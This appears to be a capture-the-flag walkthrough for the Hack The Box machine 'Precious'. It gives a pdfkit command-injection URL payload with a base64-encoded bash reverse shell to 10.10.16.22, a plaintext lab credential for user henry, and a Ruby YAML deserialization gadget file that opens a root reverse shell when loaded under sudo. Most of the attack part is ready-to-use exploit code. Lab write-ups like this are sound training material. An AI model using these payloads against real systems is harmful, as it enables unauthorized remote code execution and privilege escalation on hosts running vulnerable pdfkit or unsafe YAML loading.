 # HTB new box presious

Nmap first 1000 tcp port scan 
```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
```

Nmap full port scan 65535
only two port open

Backend

nginx proxy + Phusion Passenger(R) 6.0.15{latest version} webapplication server with ruby

# Main function of webapp

Convert html to pdf

Coverter wkhtmltopdf 0.12.6 {Commandline tool}
Pdf generator pdfkit v0.8.6

Exploit Command Injection pdfkit {Affected versions of this package are vulnerable to Command Injection where the URL is not properly sanitized}

Referance 1
https://github.com/pdfkit/pdfkit/issues/517

Referance 2
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

#payload
http://10.10.16.22/?name=#{'%20`echo "YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjIvOTAwMSAgMD4mMSAg" | base64 -d | bash\`'}

User ruby to henry
creds from ruby home dir .config/config
henry:Q3c1AqGHtoI0aXAYFH

# Privilege escalation

# YAML Deserialization
Referances https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

Deserialization payload
https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

# exploit
Create a dependencies.yml file in any writeable dir and run update_dependencies.rb in same dir with sudo 
sudo /usr/bin/ruby /opt/update_dependencies.rb

# payload => dependencies.yml
```ymal
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.16.22/9001 0>&1'"
         method_id: :resolve
```
